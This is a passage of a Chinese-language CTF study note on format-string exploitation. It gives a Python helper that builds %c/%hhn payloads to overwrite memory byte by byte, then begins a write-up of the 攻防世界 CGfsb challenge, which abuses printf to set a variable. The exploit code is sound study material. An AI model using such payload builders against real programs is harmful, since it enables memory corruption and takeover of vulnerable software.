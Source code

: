 ```
def fmt(prev, word, index):#pre原来已经有的字符, word需要填充的字符index第几个参数
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"#计算二者的差，并且用c代替
'''这里注意的是，c代表一个字符，比如说printf("%c",55)这个时候，会输出7，因为7的ASCII码是55
'''
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr

# 计算偏移
def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
'''遍历，每次地址加一，这是为了保证每个字节都分开覆盖成我们想要覆盖的东西'''

    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload
payload = fmt_str(6,4,0x0804A028,0x12345678)
```

**这个大数覆盖还是问班长吧，有点懵**



------

### 自己做题

##### **攻防世界** CGfsb

![image-20210121232106119](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210121232106119.png)

尝试一下。

![image-20210121232132315](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210121232132315.png)

属性，ida反编译。

![image-20210121232326872](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210121232326872.png)

利用printf漏洞，pwnme要等于8就会输出flag
